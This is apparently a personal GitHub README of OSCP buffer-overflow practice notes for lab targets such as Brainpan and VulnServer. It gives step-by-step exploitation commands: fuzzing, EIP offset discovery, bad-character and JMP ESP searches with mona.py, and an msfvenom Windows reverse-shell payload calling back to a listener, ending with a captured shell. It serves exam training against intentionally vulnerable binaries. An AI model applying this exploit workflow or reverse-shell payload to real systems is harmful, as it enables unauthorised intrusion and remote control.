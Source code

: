 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1) So for the Any binary we have to fuzz from 100 to Untill crash the program,
   To do so first we have to find out which input parameter of the is vulnrable to overflow.
   Then find out the crash byte of the program by fuzzing the parameter.
 
   

2) creating offset value. with msf 
   > /usr/bin/msf-pattern_create -l 3000
   where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and 'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3) /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (this is value of eip)

    output- [*] Exact match at offset 524 


4) after getting the offset value wee need to perform the overflow with some 
   more thing 
   now we have offset=524
   eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
   shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5) Creating the working dir in im-debug
     !mona config -set workingfolder c:\logs\%p

 Now next is to finding the bad char with the help of all possible hex

6) to do this we have to create an array with mona.py to compair with out paylod

   !mona bytearray -b '\x00'

   send the payload 

7) now we have to verify if ther's any badchar....
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
   if the result is normal then ther's only one badchar  ecept: "/x00"

Now we have to find the jump esp location 

8) check if there is any module that is vulnrable and false by os
   !mona modules 
   ther's a module brainpain.exe

9) to get the jump statment have to perform this command

   !mona find -s "\xff\xe4" -m baianpan.exe
   this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'


10) setting the break point to check does it working or not 
    bp 0x311712f3
    to verify the break point is set view>view breakpoint>

11) Now set the  eip to  and try run again the payload 
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12) Creating the reverse shell code with the help of the msfvenome
     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

where(-b is bad character and -f c is the revershell in c language

13) And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)

nops='\x90' * 10

14) add the nops to our payload before the shellcode value and start the listening on our side....

15) after the sending the shell the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


